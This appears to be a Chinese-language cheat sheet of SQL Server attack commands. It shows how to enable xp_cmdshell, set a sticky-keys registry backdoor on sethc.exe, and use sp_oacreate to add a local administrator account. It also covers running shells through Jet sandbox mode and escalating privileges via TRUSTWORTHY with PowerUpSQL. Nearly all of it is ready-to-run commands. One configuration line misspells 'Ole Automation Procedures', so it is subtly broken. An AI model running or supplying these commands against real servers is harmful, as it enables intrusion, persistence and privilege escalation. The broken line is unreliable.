  #### 开启xp_cmdshell
  	查询状态
  	>select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell' 存在返回1
	EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
	exec sp_configure 'xp_cmdshell',1;reconfigure;
	exec master.dbo.xp_cmdshell 'ipconfig'
	exec master..xp_cmdshell 'whoami'
 ##### xp_regwrite
	xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\taskmgr.exe'
 ##### xp_dirtree
	execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
	execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
	execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 
 ##### sp_oacreate
  	查询状态
	select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE' 存在返回1
	exec sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE;
	exec sp_configure 'Ola Automation Procedures' , 1;RECONFIGURE WITH OVERRIDE;
	执行命令无回显
	declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user 123 123 /add>c:\\1.txt'
	declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 123/add'
	删除文件
	declare @result int
	declare @fso_token int
	exec sp_oacreate 'scripting.filesystemobject', @fso_token out
	exec sp_oamethod @fso_token,'deletefile',null,'c:\1.txt'
	exec sp_oadestroy @fso_token
	复制文件
	declare @o int
	exec sp_oacreate 'scripting.filesystemobject',@o out
	exec sp_oamethod @o,'copyfile',null,'c:\1.txt','c:\2.txt'
	移动文件
	declare @o int
	exec sp_oacreate 'scripting.filesystemobject',@o out
	exec sp_oamethod @o,'movefile',null,'c:\1.txt','c:\2.txt'
 ##### 沙盒执行
	开启沙盒：
	>exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
	执行：
	>select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
 ##### PowerupSQL
  	>Get-SQLServerLinkCrawl -Username sa -Password Password@ 1 -Instance WIN-P83OS778EQK\SQLEXPRESS -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"
 #### 滥用trustworthy权限提升
  	查询当前用户trustworthy状态，trustworthy的值为 1，表示已激活。
	>select name,is_trustworthy_on from sys.databases
	也可使用PowerupSQL查询
	>Import-Module .\PowerUpSQL.ps1
	>Invoke-SQLAuditPrivTrustworthy -Username name -Password Password@1 -Instance WIN-P83OS778EQK\SQLEXPRESS -Verbose
	提权
	>Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
	>Invoke-SqlServer-Escalate-DbOwner -SqlUser name -SqlPass Password@1 -SqlServerInstance WIN-P83OS778EQK\SQLEXPRESS
	或使用msf来提权